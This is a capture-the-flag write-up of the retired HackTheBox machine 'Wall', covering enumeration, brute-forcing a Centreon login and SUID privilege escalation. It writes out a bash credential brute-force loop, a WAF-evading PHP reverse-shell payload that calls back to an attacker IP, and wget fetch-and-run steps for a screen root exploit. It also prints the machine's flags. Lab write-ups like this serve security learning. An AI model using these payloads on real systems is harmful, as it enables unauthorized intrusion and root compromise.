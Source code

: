 # HackTheBox: Wall.
My write up for the recently retired HackTheBox machine: Wall!

Wall was a fairly easy machine, although a little frustrating.

The machine had a web application vulnerable to RCE, however it was (semi) protected by a WAF.

Root access involved a vulnerable SUID binary.

## In the beginning..
As usual, I run nMap:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Finding http on port 80 along with SSH on port 22.

### HTTP

Continuing with basic enumeration, I run dirb on the web app.

```
$ dirb http://10.10.10.157/
```
Discovering these pages:
* aa.php
* server_status
* monitoring

/monitoring being the most interesting page, as it was protected by basic http authentication.

After attempting to login with common credentials and bruteforcing to no avail. I looked to the forums - finding this interesting post by @argot:

> English teachers can be very good at monitoring their class. Often times, if you use the wrong verb, they wont let you go. If you use different VERBS, maybe they'll let you go or at the very least they'll be more talkative.

## Verbs?
Instead of GET, a POST request to /monitoring results in:
```
root@kali:~# curl -X POST "http://10.10.10.157/monitoring/" -d "username=u&password=p"
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>
<meta http-equiv="refresh" content="0; URL='/centreon'" />
```
A redirection to /centreon!

  [Centreon](https://github.com/centreon/centreon) is one of the most flexible and powerful monitoring software on the market; it is absolutely free and Open Souce.

Looking around on centreon [documentation](https://documentation.centreon.com/docs/centreon/en/19.04/api/api_rest/index.html#authentication), I found the login api was at:

  http://10.10.10.157/centreon/api/index.php?action=authenticate

### Bruteforcing script!
The documentation says the default username is admin.
So I wrote a quick script to bruteforce login API using rockyou:

```
#!/bin/bash
cat rockyou.txt | while read line
do
	echo "password=$line";
	curl -X POST "http://10.10.10.157/centreon/api/index.php?action=authenticate" -d "username=admin&password=$line";
done

```
The script completes, finding the password to be password1.

### Attempting to pop a shell

Some research yields this related CVE: 
https://github.com/mhaskar/CVE-2019-13024

However it dosen't work. Why?

## WAF Evasion
A Web Application Firewall is blocking my attempts. 

I tested the WAF by hand, finding it results in status 403 when either 'nc' or ' ' (space character) were present.

So to inject the command, these two could not be present.

## ${IFS}
After some time studying at mhaskar's script, I decided to exploit using the GUI route.

Instead of space, I used ${IFS} to escape the char as well as a PHP exploit to bypass 'nc'.

* [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [StackExchange](https://security.stackexchange.com/questions/198928/reverse-php-shell-disconnecting-when-netcat-listener)

Using the above links, I crafted a payload that results in status 200, then put the payload into Commands > Misc and bound it to the poller.

Payload:
```
php${IFS}-r${IFS}'$s=fsockopen("10.10.14.***",1337);$proc=proc_open("/bin/sh",array(0=>$s,1=>$s,2=>$s),$pipes);'
```
I then navigated to the page that mhaskar's script is sending requests to, checked the box that says 'post command' and hit export while listening on netcat.

Netcat listener:
```
$ nc -lvp 1337
```
I got a shell!
```
$ id
$ uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
```

## www-data
Now I have a restricted shell - I need to perfrom some privilege escalation.

I used LinEnum by running the following on my machine in the directory that LinEnum was in.

```
$ python -m SimpleHTTPServer 8000
```

And running the following on the target machine:

```
$ wget 10.10.14.***:8000/LinEnum.sh
$ chmod +x LinEnum.sh
$ ./LinEnum.sh
```

## SUID PrivEsc

Looking through the LinEnum report, I spot a vulnerable SUID:
```
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
```
After a bit of research, I found an [exploit](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html)!

With accompanying script: [screen2root](https://github.com/XiphosResearch/exploits/blob/master/screen2root/screenroot.sh).

In the same way as before I run the script on the target machine:
```
$ wget 10.10.14.***:8000/screenroot.sh
$ chmod +x screenroot.sh
$ ./screenroot.sh
```

## Rooted!

After running the script, I get root access!

```
$ whoami
$ root
```

I grab the root flag:
```
$ cat /root/root.txt
$ 1fdbcf8c33eaa2599afdc52e1b4d5db7
```
And the user flag:
```
$ cat /home/shelby/user.txt
$ fe6194544f452f62dc905b12f8da8406
```

## Cleaning up after myself
```
$ cd /var/tmp
$ rm screenroot.sh
$ rm LinEnum.sh
```

## Thanks for reading :)

I've prepared writeups for Postman, Traverxec and Resolute. Check back when they're retired!
